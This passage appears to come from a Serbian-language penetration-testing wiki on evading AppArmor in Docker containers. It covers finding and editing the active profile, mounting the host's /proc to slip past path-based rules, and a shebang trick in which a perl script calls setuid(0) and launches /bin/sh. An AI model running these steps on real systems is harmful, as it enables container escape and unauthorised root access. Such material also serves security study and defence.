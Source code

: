 Zatim možete pokrenuti sledeću liniju da **pronađete tačan profil koji se koristi**:

```bash
find /etc/apparmor.d/ -name "*lowpriv*" -maxdepth 1 2>/dev/null
```

U čudnom slučaju možete **izmeniti apparmor docker profil i ponovo ga učitati**. Možete ukloniti ograničenja i "zaobići" ih.

### AppArmor Docker Bypass2

**AppArmor se zasniva na putanji**, što znači da čak i ako štiti fajlove unutar direktorijuma kao što je **`/proc`**, ako možete **konfigurisati kako će se kontejner pokrenuti**, možete **montirati** proc direktorijum domaćina unutar **`/host/proc`** i on više neće biti zaštićen od strane AppArmor-a.

### AppArmor Shebang Bypass

U [**ovom bagu**](https://bugs.launchpad.net/apparmor/+bug/1911431) možete videti primer kako **čak i ako sprečavate izvršavanje perla sa određenim resursima**, ako samo kreirate shell skriptu **navodeći** u prvom redu **`#!/usr/bin/perl`** i **izvršite fajl direktno**, moći ćete izvršiti šta god želite. Na primer:

```perl
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
